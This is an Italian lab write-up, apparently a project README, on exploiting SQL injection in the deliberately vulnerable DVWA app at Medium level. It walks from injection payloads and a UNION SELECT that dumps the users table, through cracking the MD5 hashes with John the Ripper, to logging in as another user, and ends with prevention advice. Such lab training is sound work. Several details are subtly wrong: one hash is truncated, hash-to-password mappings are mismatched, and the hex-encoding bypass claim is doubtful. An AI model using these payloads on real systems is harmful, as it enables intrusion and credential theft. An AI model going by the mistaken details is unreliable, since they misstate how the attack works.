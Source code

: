 # SQL Injection Exploit su DVWA (Livello di Sicurezza Medium)

## Panoramica
Questo progetto documenta il processo di sfruttamento di una vulnerabilità **SQL Injection** nella **Damn Vulnerable Web Application (DVWA)** al livello di sicurezza **Medium**. L'obiettivo era estrarre dati sensibili, inclusi le credenziali degli utenti, e dimostrare come decodificare gli hash delle password.

## Obiettivi
1. Sfruttare la vulnerabilità SQL Injection.
2. Estrarre le credenziali degli utenti dal database.
3. Decodificare gli hash delle password per ottenere le password in chiaro.
4. Utilizzare le credenziali decodificate per accedere all'applicazione web.

---

## Configurazione dell'Ambiente
### Configurazione del Laboratorio:
- **Host DVWA:** 192.168.13.150 (Metasploitable)
- **Host Kali Linux:** 192.168.13.100
- **Livello di Sicurezza:** Medium

### Prerequisiti:
1. DVWA in esecuzione su Metasploitable.
2. Sezione SQL Injection attivata.
3. Credenziali di accesso a DVWA:
   - **Username:** admin  
   - **Password:** password

---

## Passaggi dell'Exploit

### 1. Identificazione della Vulnerabilità
- Accedi alla sezione SQL Injection di DVWA.
- Testa con payload semplici come:
  ```sql
  1'
  ```
- Si è osservato che a livello Medium alcuni caratteri vengono sanitizzati.

### 2. Aggirare i Filtri con la Codifica Esadecimale
- Utilizza un payload in formato esadecimale per bypassare la sanitizzazione degli input:
  ```sql
  0x27 OR 1=1 --
  ```
- Risultati:
  Dati utente estratti dal database.

### 3. Estrazione di Dati Sensibili
- Usato SQL Injection per enumerare il database:
  - Elenco di utenti e hash delle password:
    ```sql
    0x27 UNION SELECT user, password FROM users --
    ```
  - Risultati:
    | Username  | Hash Password                             |
    |-----------|------------------------------------------|
    | admin     | 5f4dcc3b5aa765d61d8327deb882cf99         |
    | gordonb   | e99a18c428cb38d5f260853678922e03         |
    | 1337      | 8d3533d75ae2c396d7e0d4fcc69216b         |
    | pablo     | 0d107d09f5bbe40cade3de5c71e9e9b7         |
    | smithy    | 5f4dcc3b5aa765d61d8327deb882cf99         |

### 4. Decodifica degli Hash delle Password
- Salvati gli hash in un file `hashes.txt`.
- Utilizzato **John the Ripper** per decodificare gli hash:
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
  ```
- Risultati:
  | Hash                                     | Password Decodificata |
  |------------------------------------------|-----------------------|
  | 5f4dcc3b5aa765d61d8327deb882cf99         | password              |
  | e99a18c428cb38d5f260853678922e03         | 123456                |
  | 8d3533d75ae2c396d7e0d4fcc69216b         | abc123                |
  | 0d107d09f5bbe40cade3de5c71e9e9b7         | letmein               |

### 5. Utilizzo delle Credenziali per Accedere
- Effettuato il login con **pablo** utilizzando la password **letmein**.

---

## Conclusione
- La vulnerabilità SQL Injection ha permesso di estrarre dati sensibili al livello Medium.
- Gli hash delle password sono stati decodificati, rivelando password in chiaro e consentendo l'accesso agli account utente.

### Punti Chiave
- **Codifica esadecimale** efficace per aggirare la sanitizzazione degli input.
- Gli hash delle password sono vulnerabili a attacchi basati su dizionari se si utilizzano algoritmi deboli come MD5.

### Raccomandazioni per la Prevenzione
1. Utilizzare **query parametrizzate** per prevenire SQL Injection.
2. Adottare **algoritmi di hashing robusti** (es. bcrypt, Argon2).
3. Applicare **validazione degli input** su tutti i dati forniti dall'utente.
4. Limitare i privilegi del database per ridurre l'impatto di eventuali attacchi.

---

